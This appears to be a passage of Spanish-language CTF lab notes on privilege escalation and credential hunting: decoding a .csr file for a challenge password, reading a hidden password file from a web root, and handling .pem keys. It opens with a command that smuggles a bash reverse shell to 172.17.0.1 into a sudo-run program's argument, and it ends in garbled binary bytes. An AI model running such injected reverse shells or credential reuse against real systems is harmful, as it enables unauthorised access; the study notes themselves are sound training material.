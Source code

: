 sudo -u metadata /home/codebad/code "-l /home/metadata/user.txt | bash -c '/bin/bash -i >& /dev/tcp/172.17.0.1/4445 0>&1' "

-------------------------------------------------------------------------------

## 53.-  Un archivo .csr es un Certificate Signing Request (Solicitud de Firma de Certificado) que se utiliza en el proceso de obtención de un certificado digital, contiene información codificada en formato PEM o DER. Suelen incluir:

- Una clave pública asociada

- Información de identificación

- Firma digital del solicitante generaa usano una clave pública. 

la ubicación de este archivo es: 

/usr/share/ssl-cert/decode.csr


como decodificar:

ejecuta el comando:

openssl req -in decode.csr -text -noout

en el resultado de la decodificación debe aparecer algo así:

Attributes:
            challengePassword        :i4mD3c0d3r


Si tengo ssh abierto puedo probar con los diferentes usuarios que haya encontrado con la contraseña encontrada para iniciar sesión por dicho servicio.

-------------------------------------------------------------------------------

## 54.- Si al entrar a la web http://172.17.0.2 nos encontramos con este mensaje:

Bienvenido al servidor CTF Patriaquerida.¡No olvides revisar el archivo oculto en /var/www/html/.hidden_pass!

podemos ver por url el .hidden_pass

escribiendo en la url:

http://172.17.0.2/.hidden_pass

-------------------------------------------------------------------------------

## 55.- Archivos .pem:

los archivos .pem guardan llaves privadas para conectarme por ssh, ssl

tengo un archivo: private_key.pem y un athivo private.txt con el siguiente contenido:

`O��N�����f-�]�T��K.Q�a���mgu�3��i������ȉ����P�+F�8Q[
